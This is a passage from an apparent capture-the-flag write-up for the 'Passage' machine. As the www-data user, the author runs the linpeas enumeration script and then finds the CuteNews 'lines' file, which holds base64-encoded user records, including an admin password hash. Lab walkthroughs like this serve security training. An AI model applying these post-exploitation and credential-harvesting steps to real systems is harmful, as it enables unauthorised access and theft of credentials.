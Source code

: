 
I made it executable and ran the script.

```sh
www-data@passage:/tmp$ chmod +x lin.sh
chmod +x lin.sh
www-data@passage:/tmp$ ./lin.sh
```


Linpeas found nothing that I could work with. I spent a while manually enumerating the system, the only files I really had access to was the CuteNews directory. I looked back at the Github page and saw the section show in the image below. So CuteNews does store credentials somewhere, I just need to find them.

![](8.png)


I eventually worked my way into the following directory.

```sh
/var/www/html/CuteNews/cdata/users
```


In here there was a text file called "lines". I shortned the output here. What stood out here was the base64 string, this was the first one that was printed out. 


```sh
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat lines
cat lines
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo1OiJhZG1pbiI7YTo4OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMDQ3IjtzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MzoiYWNsIjtzOjE6IjEiO3M6NToiZW1haWwiO3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjQ6InBhc3MiO3M6NjQ6IjcxNDRhOGI1MzFjMjdhNjBiNTFkODFhZTE2YmUzYTgxY2VmNzIyZTExYjQzYTI2ZmRlMGNhOTdmOWUxNDg1ZTEiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3OTg4IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
.....
```
